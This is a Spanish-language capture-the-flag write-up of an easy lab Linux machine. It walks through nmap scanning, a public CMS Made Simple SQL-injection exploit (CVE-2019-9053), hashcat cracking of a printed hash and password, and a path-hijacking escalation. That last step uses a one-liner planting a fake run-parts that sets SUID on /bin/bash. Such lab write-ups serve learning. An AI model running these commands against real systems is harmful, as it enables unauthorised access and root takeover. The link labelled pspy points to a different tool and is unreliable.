








 > 📦 **OS**: Linux  
 > 🎯 **Dificultad**: Fácil  
 > 🏷️ **Tags**: `CMS Made Simple` `SQL Injection` `Hash Cracking` `Path Hijacking`  

## Enumeración
Iniciamos la máquina con una enumeración en **nmap**, la cual nos reporta que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos. Pasamos los scripts básicos de reconocimiento y vemos algo interesante.

```
nmap -sSV -p- --open --min-rate 5000 10.10.10.138
```


```
nmap -sC -p22,80 10.10.10.138
```


Los scripts básicos de nmap nos reportan que hay una ruta visible en el `robots.txt`: `/writeups`. Ya que la página principal no mostraba indicios de por dónde empezar, esta ruta resulta útil.



En la ruta `/writeup` hice una enumeración de recursos y obtuve `/writeup/admin`, pero no poseemos credenciales, así que no resulta útil. **Ojo**: esto no parece buena idea, como se indica en la página inicial, ya que tiene protección anti-DOS. La máquina se cayó y fue necesario reiniciarla, por lo que es un paso que se puede ahorrar.



## Reconocimiento 

Estuve analizando posibles vectores y observando si había algo expuesto, pero no fue hasta que revisé la respuesta HTTP del servidor que encontré un indicio claro de por dónde empezar.



Ciertas versiones del **CMS Made Simple** son vulnerables a inyecciones SQL. Probando distintos PoCs encontré uno que realiza una enumeración completa y nos devuelve el usuario y un hash que luego explotaremos: [CVE-2019-9053](https://github.com/Azrenom/CMS-Made-Simple-2.2.9-CVE-2019-9053).

##### Modo de empleo 

```python3
python3 exploit.py -u http://10.10.10.138/writeup/ 
```


#### Crackeando el hash

Este es un [Hash Salting](# "Técnica de seguridad que añade un valor aleatorio (salt) a una contraseña antes de aplicar el algoritmo de hash. Esto evita que dos contraseñas iguales generen el mismo hash y dificulta ataques con tablas rainbow o diccionarios precomputados"). Voy a usar **hashcat** para romperlo. Hay que tener varias cosas en cuenta: lo primero es la estructura. Primero iría la contraseña (`pass`) y después el **salt**. Tenemos que sustituir el `$` del hash original por `:` para que hashcat lo reconozca.

```
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

Una vez tenemos el hash listo, podemos empezar a romperlo:

```
hashcat -m 20 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<span style="font-size:12px">_Password : raykayjay9_</span>

## Explotación 

Después de intentar loguearme en el panel de administración sin éxito, probé conectarme vía **SSH** con el usuario _**jkr@writeup**_ y la contraseña crackeada anteriormente. Así obtuvimos nuestra primera flag.  

##### Escalando privilegios

Para la escalada de privilegios, después de mucho tiempo enumerando y sin encontrar nada evidente, decidí usar [pspy](https://github.com/benfred/py-spy/blob/master/README.md). Tras varios intentos, observé algo relevante al conectarme a la máquina vía SSH: encontré el vector principal para la escalada.


##### Path Hijacking

Debido a que los permisos de escritura no están correctamente configurados en el directorio _/usr/local/bin_ y que el proceso **_update-motd_** ejecuta el binario **_run-parts_** sin ruta absoluta, podemos deducir que es vulnerable a un [Path Hijacking](# "Vulnerabilidad de escalada de privilegios que ocurre cuando un programa ejecuta un comando sin usar su ruta absoluta, confiando en la variable de entorno $PATH.").

Nos encontramos con una situación crítica: **_/usr/local/bin/_ se encuentra antes que _/bin_ en la variable de entorno PATH**. Esto nos permite anticiparnos y establecer un binario malicioso `run-parts` que será ejecutado antes que el real, obteniendo así ejecución de comandos con privilegios elevados.

###### Cooking Path

```bash
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```
<span style="font-size:12px">_Le otorgamos permisos SUID a /bin/bash_</span>

Hemos explotado el vector de ataque inicial introduciendo nuestro binario malicioso en un directorio del PATH que precede a /bin.

Ahora establecemos conexión SSH, y el binario `run-parts` ejecutado será el nuestro, otorgando _**permisos SUID**_ a bash.



### Reflexión

Una máquina fácil que implementa vulnerabilidades en **CMS**, pese a que ya existía un PoC público. Sin embargo, estudiar cómo se realiza la inyección SQL analizando el código en Python resulta enriquecedor. En cuanto a la escalada de privilegios, este es un buen ejemplo práctico de **Path Hijacking** y una excelente oportunidad para entender a fondo su funcionamiento.

## FIN.
